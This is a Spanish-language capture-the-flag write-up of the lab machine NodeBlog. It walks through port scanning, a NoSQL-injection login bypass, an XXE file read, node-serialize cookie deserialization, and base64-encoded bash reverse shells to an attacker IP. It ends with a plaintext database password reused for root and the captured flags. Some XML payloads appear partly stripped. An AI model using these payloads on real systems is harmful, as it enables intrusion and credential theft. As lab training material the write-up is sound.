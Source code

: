 ```yaml
---
title: 'CTF - NodeBlog WriteUP'
date: '2022-02-01'
tags: ["#Import 2022-12-20 21:06"]
draft: true
authors: ['default']
summary: 'Reto CTF que consiste en explorar una máquina con el objetivo de obtener acceso de root. El escaneo de puertos revela un servicio SSH en el puerto 22 y un servidor web Node.js en el puerto 5000. Se intenta realizar inyección SQL sin éxito, pero se descubre una vulnerabilidad de XML External entity en el servidor web. Al aprovechar esta vulnerabilidad, se logra ejecutar código y obtener acceso de usuario. Posteriormente, se obtienen las contraseñas de los usuarios y se accede como root, obteniendo las banderas del usuario y del sistema.'
images: ["/static/images/uploads/ctf-nodeblog-writeup/Screenshot_1.webp", "/static/images/uploads/ctf-nodeblog-writeup/Screenshot_2.webp", "/static/images/uploads/ctf-nodeblog-writeup/Screenshot_4.webp", "/static/images/uploads/ctf-nodeblog-writeup/Screenshot_5.webp"]
---
```


![](/static/images/uploads/ctf-nodeblog-writeup/Screenshot_1.webp)

nmap me cuesta descubrir cosas. He tenido que ralentizar el comando de descubrir todos los pueortos porque no me encontraba ninguno más que el 22, A si que lo he lanzado normal


```
nmap -p- --open -sT -vvv -n -Pn 10.10.11.139 -oG allPorts
```
y despues


```
nmap -p22,5000 -sCV -n -Pn -vvv 10.10.11.139 -oN targeted
# Scanned at 2022-02-01 20:20:50 CET for 15s
# PORT     STATE SERVICE REASON         VERSION
# 22/tcp   open  ssh     syn-ack ttl 63 OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
# | ssh-hostkey: 
# |   3072 ea:84:21:a3:22:4a:7d:f9:b5:25:51:79:83:a4:f5:f2 (RSA)
# | ssh-rsa
# |   256 b8:39:9e:f4:88:be:aa:01:73:2d:10:fb:44:7f:84:61 (ECDSA)
# | ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBJZPKXFj3JfSmJZFAHDyqUDFHLHBRBRvlesLRVAqq0WwRFbeYdKwVIVv0DBufhYXHHcUSsBRw3/on9QM24kymD0=
# |   256 22:21:e9:f4:85:90:87:45:16:1f:73:36:41:ee:3b:32 (ED25519)
# |_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIEDIBMvrXLaYc6DXKPZaypaAv4yZ3DNLe1YaBpbpB8aY
# 5000/tcp open  http    syn-ack ttl 63 Node.js (Express middleware)
# |_http-title: Blog
# | http-methods: 
# |_  Supported Methods: GET HEAD POST OPTIONS
# Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
Foto

![](/static/images/uploads/ctf-nodeblog-writeup/Screenshot\_2.webp)

Tiene un login.

Probamos sqlmap y no tiene inyecciones sql.


```
❯ curl -X POST nodeblog.htb:5000/login -H "Content-Type: application/json" -d "this is not a json"





Error



```
SyntaxError: Unexpected token t in JSON at position 0  
 &nbsp; &nbsp;at JSON.parse (&lt;anonymous&gt;)  
 &nbsp; &nbsp;at createStrictSyntaxError (/opt/blog/node_modules/body-parser/lib/types/json.js:158:10)  
 &nbsp; &nbsp;at parse (/opt/blog/node_modules/body-parser/lib/types/json.js:83:15)  
 &nbsp; &nbsp;at /opt/blog/node_modules/body-parser/lib/read.js:121:18  
 &nbsp; &nbsp;at invokeCallback (/opt/blog/node_modules/raw-body/index.js:224:16)  
 &nbsp; &nbsp;at done (/opt/blog/node_modules/raw-body/index.js:213:7)  
 &nbsp; &nbsp;at IncomingMessage.onEnd (/opt/blog/node_modules/raw-body/index.js:273:7)  
 &nbsp; &nbsp;at IncomingMessage.emit (events.js:412:35)  
 &nbsp; &nbsp;at endReadableNT (internal/streams/readable.js:1334:12)  
 &nbsp; &nbsp;at processTicksAndRejections (internal/process/task_queues.js:82:21)
```




```
Esta intentando parsear json. nosql injection?


```
❯ curl -X POST nodeblog.htb:5000/login -H "Content-Type: application/json" -d "{\"user\":,\"password\":{\"\$gt\":\"\"}}"
# funciona
```
Con burpsuite/repeater prueblo a hacer la llamada y mando al navegador la sesion iniciada

fotos de burpsuite y el boton upload

Subo un archivo normal y me sale esto si veo el html


```
Invalid XML Example: 

 Example Post
 Example Description
 Example Markdown

```
Veo que se pueden escribir articulos con 

* title
* description
* markdown

Me genero un xml 


```

hola
aaa
md

```
Y me lleva a la ventana de articulo con todo relleno.

Encuentro informacion sobre una vulnerabilidad de XML External entity (https://hackmd.io/@Chivato/rkSqk9gbL) y veo que se puede ejecutar codigo


```
xml version="1.0" encoding="ISO-8859-1"? 
 ]

hola
aaa
&xxe;

```
![](/static/images/uploads/ctf-nodeblog-writeup/Screenshot\_4.webp)

Es vulnerable. Modifico el script para probar otras cosas.

Me acuerdo de que cuando me daba el error de json, me daba una ruta donde estaba la app /opt/blog

Encuentro que un archivo tipico de nodejs es el server.js e imprimo su contenido /opt/blog/server.js

Veo que usa node-serializer [https://snyk.io/test/npm/node-serialize#:~:text=node-serialize serializes an object,into the unserialize() function](https://snyk.io/test/npm/node-serialize#:~:text=node%2Dserialize%20serializes%20an%20object,into%20the%20unserialize()%20function).

En server.js veo que el serializador parsea la cookie y la vulnerabilidad esta en que en la cookie puedes poner codigo que ejecuta el programa.

con burpsuite hago pruebas y veo que a veces ejecuta codigo y a veces no. Como hay serializaciones y demas, escribo el codigo en base64 intentando que no haya ni '+' ni '=' poniendo espacios.


```
❯ echo -n "bash -i & /dev/tcp/10.10.14.9/443 0&1" | base64
YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC45LzQ0MyAwPiYx
❯ echo -n "bash -i  & /dev/tcp/10.10.14.9/443 0&1" | base64
YmFzaCAtaSAgPiYgL2Rldi90Y3AvMTAuMTAuMTQuOS80NDMgMD4mMQ==
❯ echo -n "bash -i  & /dev/tcp/10.10.14.9/443  0&1" | base64
YmFzaCAtaSAgPiYgL2Rldi90Y3AvMTAuMTAuMTQuOS80NDMgIDA+JjE=
❯ echo -n "bash -i  &  /dev/tcp/10.10.14.9/443  0&1" | base64
YmFzaCAtaSAgPiYgIC9kZXYvdGNwLzEwLjEwLjE0LjkvNDQzICAwPiYx

# Copio el siguiente código en la cookie de burpsuite
# echo -n YmFzaCAtaSAgPiYgIC9kZXYvdGNwLzEwLjEwLjE0LjkvNDQzICAwPiYx | base64 -d | bash
```
![](/static/images/uploads/ctf-nodeblog-writeup/Screenshot\_5.webp)

Antes de enviarlo, codifico el contenido de auth= a URLEncoding

Me pongo en esuccha en mi equipo con netcat y estoy dentro.

Entramos a mongodb y buscamos informacion del usuario


```
❯ admin@nodeblog:/opt/blog$ mongo 127.0.0.1
❯ show databases
admin   0.000GB
blog    0.000GB
config  0.000GB
local   0.000GB
❯ use blog
switched to db blog
❯ show collections
articles
users
❯ db.users.find()
{ "_id" : ObjectId("61b7380ae5814df6030d2373"), "createdAt" : ISODate("2021-12-13T12:09:46.009Z"), "username" : "admin", "password" : "IppsecSaysPleaseSubscribe", "__v" : 0 }
```
Tenemos la contraseña. Vamos a probar a ejecutar 


```
❯admin@nodeblog:/opt/blog$ sudo su -
[sudo] password for admin: 
❯ root@nodeblog:~# whoami
root
❯ root@nodeblog:~# cat /home/admin/user.txt
e83b0edb016a7146e2e5aa00f4416730
❯ root@nodeblog:~# cat root.txt
b38f827567b54906d52439592c719952
```
